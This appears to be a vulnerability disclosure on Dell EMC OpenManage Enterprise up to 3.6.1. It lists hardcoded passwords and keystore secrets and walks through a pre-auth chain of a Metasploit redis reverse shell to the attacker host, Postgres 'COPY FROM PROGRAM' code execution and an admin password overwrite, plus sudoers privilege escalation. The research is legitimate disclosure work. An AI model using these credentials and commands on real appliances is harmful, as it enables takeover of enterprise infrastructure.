


Dell EMC OpenManage Enterprise is an intuitive infrastructure management console.
OpenManage Enterprise is a system management and monitoring application that provides a comprehensive view of the Dell EMC servers, chassis, storage, and network switches on the enterprise network.
From https://www.dell.com/support/kbdoc/en-sg/000175879/support-for-openmanage-enterprise:
Secure: Security is a top priority
Vulnerable versions: all versions up to 3.6.1
The summary of the vulnerabilities is:
system accountmcsimetricssvc - partially silently patched in version 3.6.1mcsitasksvctomcatomctuiMiscellaneous notes:
We had forgotten these vulns until we saw some tweets regarding dbutil_2_3.sys and
we reminded we still had unpublished research in Dell products.
This research was done a year ago (in July 2020) against OpenManage 3.4 and we confirmed all the versions - including the latest version (3.6.1) - are affected by the vulnerabilities.
When checking openmanage enterprise 3.5, we also found new vulnerabilities (java stuff, grub, idrac).
When checking openmanage enterprise 3.6.1, it appears some vulnerabilities were silently patched (java stuff and a LPE).
We also removed some potential vulnerabilities because their exploitations were not straightforward due to the presence of SELinux.
It is possible to retrieve hardcoded ActiveMQ credentials by reading the /opt/apache-activemq-5.*/conf/credentials.properties file:
[root@openmanage-enterprise /]# cat /opt/apache-activemq-5.*/conf/credentials.properties
activemq.username=system
activemq.password=manager
guest.password=password
A new file (credentials-enc.properties, which was the file credentials.properties in previous version of OpenManage) appeared in the 3.5 version:
[root@openmanage-enterprise /]# cat /opt/apache-activemq-5.*/conf/credentials-enc.properties
activemq.username=system
activemq.password=ENC(mYRkg+4Q4hua1kvpCCI2hg==)
guest.password=ENC(Cf3Jf3tM+UrSOoaKU50od5CuBa8rxjoL)
Note: Prior to the 3.5 version, the file credentials.properties contained the identical encrypted credentials, instead of clear-text credentials:
[root@openmanage-enterprise /]# cat /opt/apache-activemq-5.10.0/conf/credentials.properties
activemq.username=system
activemq.password=ENC(mYRkg+4Q4hua1kvpCCI2hg==)
guest.password=ENC(Cf3Jf3tM+UrSOoaKU50od5CuBa8rxjoL)
In the latest version, it appears the passwords are now in clear-text.
ActiveMQ listen to all the public interfaces:
[root@openmanage-enterprise /]# ps -auxww|grep -i active
ps -auxww|grep -i active
activem+ 1065 0.9 1.2 4042088 208636 ? Sl 04:37 0:06 /usr/bin/java -Xms256m -Xmx512m -Dorg.apache.activemq.SERIALIZABLE_PACKAGES=java.lang,javax.security,java.util,org.apache.activemq,org.fusesource.hawtbuf,com.thoughtworks.xstream.mapper,com.dell.enterprise.common.integration.lib.taskengine -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/var/lib/activemq/tmp -Dactivemq.classpath=/opt/apache-activemq-5.16.0//conf:/opt/apache-activemq-5.16.0//../lib/: -Dactivemq.home=/opt/apache-activemq-5.16.0/ -Dactivemq.base=/opt/apache-activemq-5.16.0/ -Dactivemq.conf=/opt/apache-activemq-5.16.0//conf -Dactivemq.data=/var/lib/activemq/data -jar /opt/apache-activemq-5.16.0//bin/activemq.jar start
[root@openmanage-enterprise /]# netstat -laputen|grep 1065
netstat -laputen|grep 1065
tcp6 0 0 :::46403 :::* LISTEN 1000 27797 1065/java
tcp6 0 0 :::61616 :::* LISTEN 1000 29817 1065/java
Luckily, the firewall blocks all incoming connections to these 2 ports.
Other credentials found:
[root@openmanage-enterprise /]# cat /opt/apache-activemq-*/conf/jetty-realm.properties
[...]
# Defines users that can access the web (console, demo, etc.)
# username: password [,rolename ...]
admin: admin, admin
user: user, user
Furthermore, SELinux doesn't allow users to read /opt/apache-activemq-5.*/conf/ files - still the passwords are hardcoded.
Java Management Extensions (JMX) allows remote debugging of java applications.
These files contain the hardcoded passwords in clear-text for JMX access to ActiveMQ.
Even if they have wrong permissions, SELinux doesn't allow regular users to read /opt/apache-activemq-5.*/conf/ files.
Still the passwords are hardcoded, as shown below:
[root@openmanage-enterprise /]# ls -la /opt/apache-activemq-5.16.0/conf/jmx*
-rwxr-xr-x. 1 root root 965 Sep 25 2020 /opt/apache-activemq-5.16.0/conf/jmx.access
-rwxr-xr-x. 1 root root 964 Sep 25 2020 /opt/apache-activemq-5.16.0/conf/jmx.password
[root@openmanage-enterprise /]# tail -n 1 /opt/apache-activemq-5.16.0/conf/jmx.access
admin readwrite
[root@openmanage-enterprise /]# tail -n 1 /opt/apache-activemq-5.16.0/conf/jmx.password
admin activemq
It is interesting to note that the path of ActiveMQ changes, from old version to the recent one, indicating activemq is updated for every new release of Open Manage Enterprise but the hardcoded credentials are never changed.
We can find several hardcoded keystore files inside /opt/apache-activemq-5.16.0/conf:
[root@openmanage-enterprise conf]# ls -la *ts *ks
-rwxr-xr-x. 1 root root 1370 Sep 25 2020 broker.ks
-rwxr-xr-x. 1 root root 665 Sep 25 2020 broker.ts
-rwxr-xr-x. 1 root root 1357 Sep 25 2020 client.ks
-rwxr-xr-x. 1 root root 665 Sep 25 2020 client.ts
[root@openmanage-enterprise conf]# sha256sum *ts *ks
1c17bb3b5d1335a0821eb5b9c8c1de7331219619416c9d31a6b775e232bf4456 broker.ts
1c17bb3b5d1335a0821eb5b9c8c1de7331219619416c9d31a6b775e232bf4456 client.ts
718d056b1a5518abf2a5ab38d0e81eb6d41c3187d93c7c54817fcb20503b0c8c broker.ks
ce0d36c002d9912dc5f7344353735277d0af15630199ec91e96eef29a5acd3f4 client.ks
The permissions are wrong (644) but SELinux doesn't allow regular users to read /opt/apache-activemq-5.*/conf/ files.
Still the files are hardcoded.
Also, the password for the keystore file (broker.ks) is defined in the jetty.xml file, with 644 permission:
<property name="keyStorePath" value="${activemq.conf}/broker.ks" />
<property name="keyStorePassword" value="password" />
The hardcoded password for the keystore is password.
The passwords is hardcoded (Dell123$) and can't be changed:
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/webapps/api/WEB-INF/classes/jdbc.properties
hibernate.connection.url=jdbc:postgresql://localhost:5432/enterprisedb
hibernate.connection.username=core_admin
hibernate.connection.password=Dell123$
Wrong permissions but SELinux again blocks any read attempt.
[root@openmanage-enterprise /]# ls -la /opt/dell/mcsi/webapps/api/WEB-INF/classes/jdbc.properties
-rwxrwxr-x. 1 root root 151 Sep 25 2020 /opt/dell/mcsi/webapps/api/WEB-INF/classes/jdbc.properties
In previous versions (before 3.5), it was also possible to extract the password from the files
/opt/dell/mcsi/lib/db/scripts/mcsi/sysconfigdao/TSQL/9000_attribute_registry - About.txt and
/opt/dell/mcsi/lib/db/scripts/mcsi/sysconfigdao/TSQL/9040_default_data_sysconfig_templates - About.txt.
These 2 files contained:
[...]
Create a new Data Source using "PostgreSQL Unicode(x64)"
Data Source: LexingtonLocal
Database: enterprisedb
Server: localhost
User Name: core_admin
Password: Dell123$ <---------- password
SSL Mode: disabled
Port: 5432
Driver: PostgreSQL ODBC Driver(UNICODE)
Alter the "Datasource" within Options of the new data source
Bools as Char: OFF
Unknown Sizes: Longest
[...]
There will be a couple errors that are fixed by replacing 'select' with 'perform' at the line numbers given by the errors.
[...]
declare @serverName nvarchar(256) = N'LEXINGTON';
declare @dataSourceName nvarchar(256) = N'LexingtonLocal';
declare @userName nvarchar(256) = N'core_admin';
declare @password nvarchar(256) = N'Dell123$'; <------ password
[...]
These files don't exist anymore in version 3.5.
Interestingly, Dell123$ is the provided password in the documentation files:
From /opt/dell/omc/webapps/omc/console/omcOnlineHelp/en/GUID-0A8DECB1-C2E7-4904-A071-FEC75D6A54C7.html:
Must contain at least one character in: uppercase, lowercase, digit, and special character. For example, Dell123$
The command grep -ri 'Dell123\$' /opt/ as root will list several files containing this password.
The /opt/dell/mcsi/lib/db/scripts/mcsi/00_core/01CreateDB/01RoleCreation.sql script has wrong permissions and contains hardcoded clear-text passwords for the creation of roles in postgres:
Password123$,md5292f7d66e18e0128fa11bebb95c467a6 as UNENCRYPTED PASSWORD is being used instead of ENCRYPTED PASSWORD.
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/lib/db/scripts/mcsi/00_core/01CreateDB/01RoleCreation.sql
-- Role: "core_admin"
-- DROP ROLE core_admin;
--CREATE ROLE core_admin LOGIN
-- ENCRYPTED PASSWORD 'md564f6b341503abb8ca26367630f233b22'
-- NOSUPERUSER INHERIT NOCREATEDB NOCREATEROLE;
-- CREATE ROLE replicator LOGIN
-- ENCRYPTED PASSWORD 'md5a7c4e11df28c56eac643ace589e81d4e'
-- NOSUPERUSER INHERIT NOCREATEDB NOCREATEROLE REPLICATION;
CREATE ROLE core_admin LOGIN
UNENCRYPTED PASSWORD 'md5292f7d66e18e0128fa11bebb95c467a6'
SUPERUSER INHERIT NOCREATEDB NOCREATEROLE;
CREATE ROLE replicator LOGIN
UNENCRYPTED PASSWORD 'Password123$'
NOSUPERUSER INHERIT NOCREATEDB NOCREATEROLE REPLICATION;
By default, only the passwords for servers/idrac/appliances inside the postgres database are encrypted using a keystore containing a secret key.
This keystore file is located in /opt/dell/mcsi/appliance/config/security/keystore.p12.
At first, it seems insecure because its permissions are wrong (664) but this file is in fact protected by SELinux:
[root@openmanage-enterprise /]# ls -la /opt/dell/mcsi/appliance/config/security/keystore.p12
-rw-rw-r--+ 1 root root 313 May 16 04:06 /opt/dell/mcsi/appliance/config/security/keystore.p12
SELinux policy:
/opt/dell/mcsi/appliance/config/security/keystore\.p12 -- system_u:object_r:mcsi_appliance_secret_t:s0
Nonetheless, the password of the keystore is hardcoded:
From /opt/dell/omc/scripts/runonce/update_keystorepassword_runonce.sh:
[root@openmanage-enterprise /]# cat /opt/dell/omc/scripts/runonce/update_keystorepassword_runonce.sh
[...]
/usr/java/latest/bin/keytool -storepasswd -new "7673D238EBF23E51EC18E9D9B5DAB299" -storepass "changeit" -keystore /opt/dell/mcsi/appliance/config/security/keystore.p12
[...]
/usr/java/latest/bin/keytool -alias "secretKey" -keypasswd -new "7673D238EBF23E51EC18E9D9B5DAB299" -keypass "changeit" -storepass "7673D238EBF23E51EC18E9D9B5DAB299" -keystore /opt/dell/mcsi/appliance/config/security/keystore.p12
The password 7673D238EBF23E51EC18E9D9B5DAB299 was found in all versions of OpenManage and it works:
[root@openmanage-enterprise /]# openssl pkcs12 -info -in /opt/dell/mcsi/appliance/config/security/keystore.p12
Enter Import Password: [7673D238EBF23E51EC18E9D9B5DAB299]
MAC Iteration 100000
MAC verified OK
PKCS7 Data
Warning unsupported bag type: secretBag
We can also find the original password changeit for the keystore inside the /opt/dell/mcsi/appliance/scripts/ca/importCert.exp script:
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/appliance/scripts/ca/importCert.exp
[...]
spawn /usr/java/latest/bin/keytool -import -alias localhost -file /etc/pki/tls/certs/localhost.crt -keystore /usr/java/latest/lib/security/cacerts
match_max 100000
expect -exact "Enter keystore password: "
send -- "changeit\r"
expect -exact "Trust this certificate? \[no\]: "
send -- "yes\r"
sleep 3
From the files /opt/dell/mcsi/lib/db/data/pg_hba.conf.core and /opt/dell/mcsi/lib/db/data/pg_hba.conf.trust,
the entire docker IP range (169.254.255.1/24) has a full access to postgres, without password (trust)
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/lib/db/data/pg_hba.conf.trust
# TYPE DATABASE USER CIDR-ADDRESS METHOD
# "local" is for Unix domain socket connections only
local all postgres trust
local replication rep trust
# IPv4 local connections:
host all postgres 127.0.0.1/32 trust
host all postgres 169.254.255.1/24 trust
host replication rep 169.254.255.1/24 trust
# IPv4 & IPv6 local connections:
host all all 127.0.0.1/32 trust
host all all 169.254.255.1/24 trust
host all all ::1/128 trust
#host replication all 172.18.100.0/16 md5
#hostssl replication all 172.18.100.0/16 md5
host all postgres ::1/128 trust
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/lib/db/data/pg_hba.conf.core
# TYPE DATABASE USER CIDR-ADDRESS METHOD
# "local" is for Unix domain socket connections only
local postgres postgres trust
host enterprisedb core_admin ::1/128 trust
host enterprisedb core_admin 127.0.0.1/32 trust
host enterprisedb core_admin 169.254.255.1/24 trust
local enterprisedb core_admin trust
local replication rep trust
host replication rep 169.254.255.1/24 trust
In fact, no password is being used by the solution to manage the database, as shown below:
[root@openmanage-enterprise /]# cat /var/etc/opt/dell/mcsi/logjdbc.properties
postgresql.connection.url=jdbc:postgresql://localhost:5432/enterprisedb
postgresql.connection.username=core_admin
postgresql.connection.password=
A compromise of a docker instance will likely provide a full access to the Postgres database (see "Remote Auth Bypass with 2 pre-auth RCEs in docker instances" for a demo).
Also, it it possible to see that authentication for Posgtres in the device is mainly based on IP:
[root@openmanage-enterprise /]# cat /opt/dell/omc/scripts/execute_db_script.sh
#!/usr/bin/env bash
dbHost=localhost
dbUser=core_admin
dbName=enterprisedb
dbPort="5432"
psql_arguments=()
[...]
No authentication is being defined in this shell script.
By default, some ACLs allow to connect to Postgres without a password.
A local unprivileged user (e.g.: nobody) inside the host or inside any docker instances running in the appliance will get code execution as postgres inside the postgres docker.
He will also get a full control over the database, so a full control over the appliance.
It is possible to reach the postgres database on localhost, thanks to a docker-proxy daemon:
[root@openmanage-enterprise /]# ps -auxww|grep proxy | grep 5432
root 1340 0.3 0.0 448608 13184 ? Sl 04:37 0:36 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 5432 -container-ip 169.254.255.2 -container-port 5432
It is also possible to reach the postgres database using the IP of the docker instance:
[nobody@openmanage-enterprise /]$ psql -d enterprisedb -h 169.254.255.2 -U core_admin -p 5432
psql (11.9, server 11.6)
Type "help" for help.
enterprisedb=# \l
List of databases
Name | Owner | Encoding | Collate | Ctype | Access privileges
--------------+------------+----------+-------------+-------------+-----------------------
enterprisedb | core_admin | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
postgres | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
template0 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
(4 rows)
enterprisedb=# \q
[nobody@openmanage-enterprise /]$ psql -d enterprisedb -h 127.0.0.1 -U core_admin -p 5432
psql (11.9, server 11.6)
Type "help" for help.
enterprisedb=# \l
List of databases
Name | Owner | Encoding | Collate | Ctype | Access privileges
--------------+------------+----------+-------------+-------------+-----------------------
enterprisedb | core_admin | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
postgres | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
template0 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
(4 rows)
enterprisedb=# \q
It is then possible to get code execution inside the postgres docker, without authentication:
[nobody@openmanage-enterprise /]$ psql -d enterprisedb -h 127.0.0.1 -U core_admin -p 5432
psql (11.9, server 11.6)
Type "help" for help.
enterprisedb=# DROP TABLE IF EXISTS cmd_exec;
NOTICE: table "cmd_exec" does not exist, skipping
DROP TABLE
enterprisedb=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
enterprisedb=# COPY cmd_exec FROM PROGRAM 'id';
COPY 1
enterprisedb=# SELECT * FROM cmd_exec;
cmd_output
--------------------------------------------------------------------
uid=26(postgres) gid=26(postgres) groups=26(postgres),26(postgres)
(1 row)
There is a chain of pre-auth vulnerabilities allowing to:
redispostgresDue to some requirements in the exploit chain, the attacker needs to be on the same subnet as the target (same LAN, without a gateway between the target and the attacker).
The attack scenario is:
The network flow is:
Attacker(192.168.1.102) -> redis(169.254.255.3, routed by 192.168.1.100) -> Posgres(169.254.255.2)
IPs used in this setup:
Internal IPs inside Dell OpenManage Enterprise, by default, already configued by the solution:
[root@openmanage-enterprise /]# docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
ecf97860f111 redis:latest "docker-entrypoint.s" 2 hours ago Up 2 hours 127.0.0.1:6379->6379/tcp redis
e1e82315ec5b mcsi/omeproductionimage:2.6.0.43 "docker-entrypoint.s" 2 hours ago Up 2 hours 2345/tcp, 127.0.0.1:5432->5432/tcp primarydatabase
Shell and Metasploit session:
It is required to add a route to the internal IP of the redis container running inside OpenManage Enterprise:
kali# route add -host 169.254.255.3 gw 192.168.1.100
kali# traceroute -nI 169.254.255.3
traceroute to 169.254.255.3 (169.254.255.3), 30 hops max, 60 byte packets
1 192.168.1.100 0.775 ms 0.762 ms 1.060 ms
2 169.254.255.3 1.911 ms 1.922 ms 1.893 ms
On the 3.6.1 version, pings are now dropped. Using tcptraceroute:
kali# tcptraceroute 169.254.255.3 6379
Running:
traceroute -T -O info -p 6379 169.254.255.3
traceroute to 169.254.255.3 (169.254.255.3), 30 hops max, 60 byte packets
1 192.168.1.100 (192.168.1.100) 0.489 ms 0.440 ms 0.545 ms
2 169.254.255.3 (169.254.255.3) <syn,ack> 0.852 ms 0.821 ms 0.720 ms
An attacker can now reach the redis and postgres docker instances because iptables is not correctly configured and allow the 2 services to be reachable from the WAN. Also, by default, IP forwarding is enabled:
[root@openmanage-enterprise /]# sysctl net.ipv4.conf.all.forwarding
net.ipv4.conf.all.forwarding = 1
Why not directly reaching Postgres ?
By default, ACLs defined in Postgres configuration only allow connections from the 169.254.255.0/24 range,
thus it is required to reach the redis interface available on the 169.254.255.3 IP and then use redis as a relay to reach the postgres instance.
local postgres postgres trust
host enterprisedb core_admin ::1/128 trust
host enterprisedb core_admin 127.0.0.1/32 trust
host enterprisedb core_admin 169.254.255.1/24 trust
local enterprisedb core_admin trust
local replication rep trust
host replication rep 169.254.255.1/24 trust
When trying to connect directly to the IP of Postgres, we can see it is ACL-blocked (after adding a route to 169.254.255.2):
kali# psql -d enterprisedb -h 169.254.255.2 -U core_admin -p 5432
kali# psql: error: could not connect to server: FATAL: no pg_hba.conf entry for host "192.168.1.102", user "core_admin", database "enterprisedb", SSL off
We can test if we can reach directly the redis daemon, running inside the redis docker:
kali# telnet 169.254.255.3 6379
Trying 169.254.255.3...
Connected to 169.254.255.3.
Escape character is '^]'.
TEST
-ERR unknown command `TEST`, with args beginning with:
config set dir /tmp
+OK
^]q
telnet> q
Connection closed.
We can reach redis, time to get RCE using master/slave replication using metasploit.
On the attacker machine, it is required to update the
/usr/share/metasploit-framework/modules/exploits/linux/redis/redis_unauth_exec.rb file
to use a writable directory for the user redis:
Patch /usr/share/metasploit-framework/modules/exploits/linux/redis/redis_unauth_exec.rb to add:
131a132
> redis_command('CONFIG', 'SET', 'dir', '/tmp')
Metasploit session:
kali# msfconsole
msf5 > use exploit/linux/redis/redis_unauth_exec
msf5 exploit(linux/redis/redis_unauth_exec) > set SRVHOST 192.168.1.102
SRVHOST => 192.168.1.102
msf5 exploit(linux/redis/redis_unauth_exec) > set LHOST 192.168.1.102
LHOST => 192.168.1.102
msf5 exploit(linux/redis/redis_unauth_exec) > set RHOSTS 169.254.255.3
RHOSTS => 169.254.255.3
msf5 exploit(linux/redis/redis_unauth_exec) > run
[*] Started reverse TCP handler on 192.168.1.102:4444
[*] 169.254.255.3:6379 - Compile redis module extension file
[+] 169.254.255.3:6379 - Payload generated successfully!
[*] 169.254.255.3:6379 - Listening on 192.168.1.102:6379
[*] 169.254.255.3:6379 - Rogue server close...
[*] 169.254.255.3:6379 - Sending command to trigger payload.
[*] Sending stage (3021284 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.102:4444 -> 192.168.1.100:60572) at 2020-07-11 12:59:57 -0400
[!] 169.254.255.3:6379 - This exploit may require manual cleanup of './mkmiq.so' on the target
meterpreter > ls
Listing: /tmp
=============
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100644/rw-r--r-- 46808 fil 2020-07-09 08:59:55 -0400 mkmiq.so
meterpreter > shell
Process 19 created.
Channel 1 created.
id
uid=999(redis) gid=999(redis) groups=999(redis)
exit
meterpreter >
Note, with a recent metasploit, the exploit has been moved to exploit/linux/redis/redis_replication_cmd_exec.
The diff is now:
diff /usr/share/metasploit-framework/modules/exploits/linux/redis/redis_replication_cmd_exec.rb
137a138
> redis_command('CONFIG', 'SET', 'DIR', '/tmp')
This works with all openmanage version (up to the latest version - 3.6.1).
After getting a shell as redis inside the redis docker, it is time to add a port forwarding
to the postgresql, in order to bypass ACLs:
meterpreter > portfwd add -l 5432 -p 5432 -r 169.254.255.2
[*] Local TCP relay created: :5432 <-> 169.254.255.2:5432
On another shell, an attacker will get code execution inside the PGSQL container:
kali# psql -d enterprisedb -h 127.0.0.1 -U core_admin -p 5432
psql (12.1 (Debian 12.1-2), server 11.6)
Type "help" for help.
enterprisedb-# \l
List of databases
Name | Owner | Encoding | Collate | Ctype | Access privileges
--------------+------------+----------+-------------+-------------+-----------------------
enterprisedb | core_admin | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
postgres | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
template0 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
(4 rows)
enterprisedb=# DROP TABLE IF EXISTS cmd_exec;
DROP TABLE
enterprisedb=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
enterprisedb=# COPY cmd_exec FROM PROGRAM 'id';
COPY 1
enterprisedb=# SELECT * FROM cmd_exec;
cmd_output
-------------------------------------------------------
uid=26(postgres) gid=26(postgres) groups=26(postgres)
(1 row)
enterprisedb=#
Dump of database:
kali# pg_dump -d enterprisedb -h 127.0.0.1 -U core_admin > dump.sql
Time to redefine the administrator password:
Passwords are located in encryptedstring table:
kali# psql -d enterprisedb -h 127.0.0.1 -U core_admin -p 5432
enterprisedb=# SELECT * FROM encryptedstring;
3 | $2a$10$.hbHnOt6crprUoAO2PMJxerc8nQ12SJ.jxgM8JgZiuLIfkCVNgSqe
4 | system
1 | $2a$10$bzBdUKXFdlb0U7Hl.w6XIuQFKQQr0Qgi165KN2TaaOemlaAe.OuU2
2 | admin
Change admin password into x:
kali# psql -d enterprisedb -h 127.0.0.1 -U core_admin -p 5432
enterprisedb=# UPDATE encryptedstring SET encrypteddata='$2a$10$XXXXXXXXXXXXXXXXXXXXXOQhTG4aUZ8kSMBOnpMruh17xTsANIaT6' WHERE id=1;
UPDATE 1
enterprisedb=#
Now, use admin / x on the web interface ( http://192.168.1.100/ ).
After reversing some java code, passwords are blowfish 10 rounds:
kali# python3
Python 3.7.5 (default, Oct 27 2019, 15:43:29)
[GCC 9.2.1 20191022] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import bcrypt
>>> passwd = b'x'
>>> salt = b'$2a$10$XXXXXXXXXXXXXXXXXXXXXXXXX' # or bcrypt.gensalt(rounds=10)
>>> hashed = bcrypt.hashpw(passwd, salt)
>>> print(hashed)
b'$2a$10$XXXXXXXXXXXXXXXXXXXXXOQhTG4aUZ8kSMBOnpMruh17xTsANIaT6'
>>>
The main takeways in this setup are:
169.254.255.1/24 is being used instead of 169.254.255.1/32 or 169.254.255.0/24system accountThere is likely an undocumented system account in all openmanage versions, as shown below:
We can list the users from the postgres database:
enterprisedb=# select * from user_entity;
id | user_type_id | directory_server_id | user_name | description | pwcredential_id | email | isenabled | locked | enable_smart_card | ca_certificate | user_certificate | default_account | object_guid | object_sid | id_owner
-------+--------------+---------------------+-----------+-------------+-----------------+-------+-----------+--------+-------------------+----------------+------------------+-----------------+-------------+------------+---------
10066 | 1 | | admin | admin | 1 | | t | f | f |
10068 | 1 | | system | system | 2 | | t | f | f |
enterprisedb=# select * from passwordcredential;
id | dtype | label | usernameid | passwordid | domainid | updatedate
----+--------------------------------+--------+------------+------------+----------+----------------------------
2 | HashedPasswordCredentialEntity | system | 4 | 3 | | 2020-07-11 18:08:50.207+00
1 | HashedPasswordCredentialEntity | admin | 2 | 1 | | 2020-07-11 18:14:41.012+00
(2 rows)
kali# psql -d enterprisedb -h 127.0.0.1 -U core_admin -p 5432
enterprisedb=# SELECT * FROM encryptedstring;
id | encrypteddata
----+--------------------------------------------------------------
3 | $2a$10$.hbHnOt6crprUoAO2PMJxerc8nQ12SJ.jxgM8JgZiuLIfkCVNgSqe
4 | system
2 | admin
1 | $2a$10$XXXXXXXXXXXXXXXXXXXXXOQhTG4aUZ8kSMBOnpMruh17xTsANIaT6
Also from dump.sql:
COPY core.passwordcredential (id, dtype, label, usernameid, passwordid, domainid, updatedate) FROM stdin;
2 HashedPasswordCredentialEntity system 4 3 \N 2020-07-11 11:24:42.386+00
1 HashedPasswordCredentialEntity admin 2 1 \N 2020-07-11 11:26:14.551+00
\.
When trying to add a system account:
 
This account doesn't seem to be documented but we were unable to use it to login into the web service.
Its aim is currently not known.
The application database key (DatabaseKey) is generated randomly during the installation and is stored inside the database.
It is possible to extract it without authentication:
COPY core.encryptionkey (id, dtype, bytes) FROM stdin;
1 DatabaseKey DHAqjsvpfUh+aRZKLTa6+K+rmHBtcPafoyuIMPTqV3hTUbGTb08ZzZSkF4GYgbPQ
\.
The TLS key has weak permissions:
[root@openmanage-enterprise /]# ls -la /etc/pki/tls/private/localhost.key
-rw-r--r--. 1 root root 3272 Jul 11 2020 /etc/pki/tls/private/localhost.key
No SELinux protection - this allows any user to read the files.
mcsimetricssvcThe file /etc/sudoers.d/94_mcsi_metrics belongs to mcsimetricssvc, as shown below:
[root@openmanage-enterprise etc]# ls -la /etc/sudoers.d/94_mcsi_metrics
-rw-rw-r--. 1 mcsimetricssvc root 847 Sep 25 2020 /etc/sudoers.d/94_mcsi_metrics
This user can just edit this file to get root access using sudo.
It is also possible to directly find this weakness by executing sudo, a warning message will appear:
[root@openmanage-enterprise ~]# sudo id
sudo: /etc/sudoers.d/94_mcsi_metrics is owned by uid 1005, should be 0
uid=0(root) gid=0(root) groups=0(root)
This LPE was silently patched in version 3.6.1.
Futhermore, this user has these (large) sudo privileges:
%mcsimetricssvc ALL=NOPASSWD:/usr/bin/mount, /usr/bin/cp, /usr/bin/umount, /usr/bin/gpg,/opt/dell/mcsi/appliance/scripts/pam/config_user_access.sh,/opt/dell/mcsi/appliance/scripts/port_validation.sh,/opt/dell/mcsi/appliance/scripts/change_timezone.py,/opt/dell/mcsi/appliance/scripts/restore_application.py,/opt/dell/mcsi/appliance/scripts/certificate_tool.py,/opt/dell/mcsi/appliance/scripts/change_hostname.py,/opt/dell/mcsi/appliance/scripts/address_configuration.py,/opt/dell/mcsi/appliance/scripts/current_network_settings.py, /usr/bin/lscpu,/usr/bin/free,/opt/dell/mcsi/appliance/scripts/ntp_tool.py,/opt/dell/mcsi/appliance/scripts/dump_logs.py,/opt/dell/mcsi/appliance/scripts/change_webconfig.py,/opt/dell/mcsi/appliance/scripts/branding.py,/usr/bin/systemctl,/usr/bin/date,/usr/bin/ntpstat,/usr/sbin/ntpq,/usr/bin/python,/usr/sbin/ntpdc
At least /usr/bin/mount, /usr/bin/cp, /usr/bin/gpg, /usr/bin/systemctl and /usr/bin/python can be used to elevate to root.
